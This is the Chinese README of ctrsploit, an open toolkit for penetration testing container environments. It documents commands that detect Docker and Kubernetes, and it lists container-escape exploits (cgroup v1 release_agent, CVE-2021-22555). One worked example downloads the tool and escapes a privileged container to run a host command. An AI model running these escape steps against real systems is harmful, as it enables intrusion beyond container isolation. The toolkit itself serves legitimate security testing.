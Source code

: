 # ctrsploit: 一个容器场景自动化渗透测试工具

[English Version](./README.md)

## 为什么我们需要ctrsploit
[这里](https://github.com/ctrsploit/ctrsploit/discussions/11)有详细解释

## Pre-Built Release

https://github.com/ctrsploit/ctrsploit/releases

## Usage

### Quick-Start

```
wget -O ctrsploit https://github.com/ctrsploit/ctrsploit/releases/download/v0.4/ctrsploit_linux_amd64 && chmod +x ctrsploit
./ctrsploit --help
NAME:
   ctrsploit - A penetration toolkit for container environment

ctrsploit is a command line ... //TODO


USAGE:
   ctrsploit [global options] command [command options] [arguments...]

COMMANDS:
   auto, a     auto gathering information, and detect vuls, and exploit // TODO
   exploit, e  run a exploit
   env, e      gather information // TODO
   help, h     Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --lang value  language for the greeting (default: "english")
   --help, -h    show help (default: false)
```

### 信息收集

usage

```
root@ctr:/# ./ctrsploit env
NAME:
   ctrsploit env - gather information

USAGE:
   ctrsploit env command [command options] [arguments...]

COMMANDS:
   where, w        detect whether you are in the container, and which type of the container
   graphdriver, g  detect graphdriver type and extend information
   cgroups, c      gather cgroup information
   help, h         Shows a list of commands or help for one command

OPTIONS:
   --help, -h  show help (default: false)
```

查看当前是否在容器内，在何容器内：

```
root@ctr:/# ./ctrsploit  env  w
INFO[0000] ===========Docker=========
.dockerenv exists: ✔
rootfs contains 'docker': ✔
cgroup contains 'docker': ✘
the mount source of /etc/hosts contains 'docker': ✔
hostname match regex ^[0-9a-f]{12}$: ✔
=> is in docker: ✔
INFO[0000] ===========k8s=========
/var/run/secrets/kubernetes.io exists: ✘
hostname match k8s pattern: ✘
the mount source of /etc/hosts contains 'pods': ✘
cgroup contains 'kubepods': ✘
=> is in k8s: ✘ 
```

### run a exploit

```
root@2aa13a052102:/# ./ctrsploit e
NAME:
   ctrsploit exploit - run a exploit

USAGE:
   ctrsploit exploit command [command options] [arguments...]

COMMANDS:
   cgroupv1-release_agent, ra                       escape tech by using the notify_on_release of cgroup v1
   cgroupv1-release_agent-unknown_rootfs, ra3       escape tech by using the notify_on_release of cgroup v1 without known rootfs
   help, h                                          Shows a list of commands or help for one command

OPTIONS:
   --help, -h  show help (default: false)

```

例如: 使用'cgroupv1-release_agent'技术逃逸:

```
root@host # docker run -ti --rm --security-opt="apparmor=unconfined" --cap-add="sys_admin" busybox
root@ctr # wget -O ctrsploit https://github.com/ctrsploit/ctrsploit/releases/download/v0.4/ctrsploit_linux_amd64 && chmod +x ctrsploit
root@ctr # ./ctrsploit e ra -c "cat /etc/hostname"
```

## Details

### env

| 子命令 | 简写 | 描述 |
| --- | --- | --- |
| [where](./env/where) | w | 检测你是否在容器内，在何种类型的容器内 |
| [graphdriver](./env/graphdriver) | g | 检测graphdriver类型和扩展信息 |
| [cgroups](./env/cgroups) | c | 收集cgroup信息 |
| [capability](./env/capability) | cap | 显示pid为1的进程和当前进程的capability |
| [seccomp](./env/seccomp) | s | 显示seccomp信息 |
| [apparmor](./env/apparmor) | a | 显示apparmor信息 |

### exploit

| exploit | 缩写 | 简述 |
| --- | --- | --- |
| [cgroupv1-release_agent](./exploit/cgroupv1-release_agent) | ra | 利用cgroup v1的notify_on_release功能的逃逸技术 |
| [cgroupv1-release_agent-unknown_rootfs](./exploit/cgroupv1-release_agent-unknown_rootfs) | ra3 | 在不知道rootfs在宿主机路径时，利用cgroup v1的notify_on_release功能的逃逸技术 |
| [cve-2021-22555](./exploit/CVE-2021-22555) | 22555 | 利用CVE-2021-22555的逃逸技术 |
